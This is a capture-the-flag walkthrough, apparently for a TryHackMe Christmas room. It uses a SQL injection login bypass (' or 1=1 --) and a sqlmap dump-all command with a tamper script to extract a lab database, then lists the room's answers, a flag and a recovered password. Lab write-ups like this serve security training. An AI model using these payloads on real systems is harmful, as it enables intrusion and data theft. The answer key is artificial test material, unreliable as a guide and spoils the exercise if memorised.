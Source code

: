 navigate to the website http://10.10.159.176:8000/  {ip might be different use your machine ip}

![image](https://user-images.githubusercontent.com/84837928/128608353-c67a2141-c76f-4ca5-a0ea-dd1a6dd80daa.png)

![image](https://user-images.githubusercontent.com/84837928/128608391-4a79f611-74eb-4bf4-8166-c1ec22df1c99.png)

first answers is too much easy from the hints :

![image](https://user-images.githubusercontent.com/84837928/128608415-d098014a-bc70-4494-91e7-1180a4f9877b.png)

on hints its clear that /santapanel

--> /santapanel  

once you visit the panel you find login panel like this :

![image](https://user-images.githubusercontent.com/84837928/128608537-b6eebd26-4326-4aad-9416-4b43e2954319.png)


Try using basic login bypass sql technique:

--> username: ' or 1=1 --
    password: {anything}
    
    ![image](https://user-images.githubusercontent.com/84837928/128608607-35bc5946-c52b-4f3b-92f3-548d1ccdbae7.png)

turn on burp proxy and enter any random name : 
 ![image](https://user-images.githubusercontent.com/84837928/128608666-cc4cb730-b24e-4b5f-9a0c-e5eced9e1081.png)
 
once you search , on burp intercept , do right click and save it 

![image](https://user-images.githubusercontent.com/84837928/128608755-7e40d6cb-3ca9-40a3-a5d0-befe7dc83af0.png)

remember the location :

![image](https://user-images.githubusercontent.com/84837928/128608794-5aaf1d20-071e-4506-a457-34a933c5f0d4.png)

cd to the directory that you save and fire up the command 
-->sqlmap -r santa.panel --tamper=space2comment --dump-all --dbms sqlite

![image](https://user-images.githubusercontent.com/84837928/128608848-dbadb34d-2b5b-4544-8406-813779094a24.png)

once scan finished you might find this :

![image](https://user-images.githubusercontent.com/84837928/128608891-8152ed3d-b405-40f6-a214-4fa2cb07d958.png)

![image](https://user-images.githubusercontent.com/84837928/128608913-83a5aa02-dac7-4ac9-b5a2-e8ec4ed79428.png)

--> 22

![image](https://user-images.githubusercontent.com/84837928/128608931-6d07ad6c-f68c-4d18-80e1-5fcad6e8d787.png)

![image](https://user-images.githubusercontent.com/84837928/128608937-5926a860-58a7-45d4-aa6c-ee9a74c1ee77.png)

--> Github Ownership


![image](https://user-images.githubusercontent.com/84837928/128608948-2a58e455-ba1e-4e2b-bbc7-d81c78f6678d.png)

![image](https://user-images.githubusercontent.com/84837928/128608953-abebea79-c799-4acc-8851-04e2ffacc163.png)

--> thmfox{All_I_Want_for_Christmas_Is_You}

![image](https://user-images.githubusercontent.com/84837928/128608973-a5ffb4ab-b926-4c55-900c-adc59a6ba7b6.png)

![image](https://user-images.githubusercontent.com/84837928/128608980-4a9c8531-4bb2-40b7-a801-d3f862eca3b0.png)
--> EhCNSWzzFP6sc7gB

----------------All the answers are found on one single scan------------------





